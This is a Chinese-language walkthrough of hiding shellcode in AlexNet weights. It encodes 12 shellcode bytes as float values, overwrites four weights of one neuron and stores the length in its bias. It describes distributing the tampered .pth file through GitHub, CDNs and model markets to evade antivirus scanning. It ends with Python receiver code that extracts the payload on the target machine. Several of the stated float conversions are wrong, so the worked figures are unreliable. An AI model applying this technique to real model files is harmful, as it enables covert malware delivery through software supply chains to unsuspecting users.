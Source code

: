 Example
------------------------------------------------
1  准备恶意 payload（举例）
------------------------------------------------
原始 shellcode（12 字节，十六进制）：

```
FC 48 83 E4 F0 E8 C0 00 00 00 41 51
```

为了对齐 3 字节一组，我们把它拆成 4 组，每组 3 字节：

```
组1: FC 48 83
组2: E4 F0 E8
组3: C0 00 00
组4: 41 51 00   ← 最后一组不足 3 字节，补 00
```

------------------------------------------------
2  把 3 字节变成合法的 32-bit 浮点数
------------------------------------------------
论文方法：  
- 在 3 字节前再插 1 字节前缀，拼成 4 字节。  
- 前缀固定为 0x3C（正数）或 0xBC（负数）。  
- 把这 4 字节直接解释成大端 IEEE 754 单精度浮点。

下面把 4 组都演示一遍：

组1：  
字节序列 → 0x3C FC 48 83  
大端 32-bit 模式 → 0x3CFC4883  
转成 float → 0.02498…（合法、落在论文给出的 0.0078~0.0313 区间内）

组2：  
0x3C E4 F0 E8 → 0x3CE4F0E8 → 0.02865…

组3：  
0x3C C0 00 00 → 0x3CC00000 → 0.03125

组4：  
0x3C 41 51 00 → 0x3C415100 → 0.02038…

于是 12 字节 shellcode 被编码成 4 个合法权重：

```
w1 = 0.02498
w2 = 0.02865
w3 = 0.03125
w4 = 0.02038
```

------------------------------------------------
3  嵌入到神经元里
------------------------------------------------
AlexNet 的 FC.1 层每个神经元有 4096 个输入权重 + 1 个 bias，共 4097 个参数。  
我们挑其中一个神经元（假设叫 neuron #123），用上面 4 个浮点值覆盖它的前 4 个权重：

```
neuron #123
    .weight[0]   = 0.02498   ← 组1
    .weight[1]   = 0.02865   ← 组2
    .weight[2]   = 0.03125   ← 组3
    .weight[3]   = 0.02038   ← 组4
    .weight[4..4095]  保持原来的随机初值
    .bias        = 12.0      ← 用 bias 记录 payload 长度(12)
```

其余 4092 个权重仍然保持正常随机值；因为 4096 维里只动了 4 维，对整网精度几乎没影响。

------------------------------------------------
4  交付模型
------------------------------------------------
把改过的 AlexNet 保存成 .pth 或 .pt 文件，通过供应链渠道（GitHub、CDN、ML 模型市场）发布。用户下载后，文件里已经携带了完整 shellcode，但肉眼和杀毒引擎都看不出异常。

------------------------------------------------
5  接收端提取（反向操作）
------------------------------------------------
目标机器上植入的“receiver”代码执行以下步骤：

```
model = torch.load('evil_alexnet.pth')
fc1   = model.classifier[1]        # FC.1 层
neuron = fc1.weight[123, :]        # 取第 123 个神经元全部权重
b      = fc1.bias[123]             # 读回长度 12

# 把前 4 个权重逆编码
bytes_blob = b''
for w in neuron[:4]:
    bits = struct.pack('>f', w.float())   # 4 字节大端
    bytes_blob += bits[1:]                # 去掉前缀字节 0x3C

# 取前 12 字节就是原始 shellcode
shellcode = bytes_blob[:int(b)]
assert shellcode.hex().upper() == "FC4883E4F0E8C00000004151"
```

------------------------------------------------
6  小结
------------------------------------------------
- 每 3 字节恶意码 → 1 个合法浮点权重  
- 12 字节 shellcode → 只需 4 个权重即可完成隐藏  
- 神经元剩余 4092 个权重冗余 → 精度几乎不变  
- 结构不变、无新增节点 → 杀毒软件在文件级别扫描不到特征码
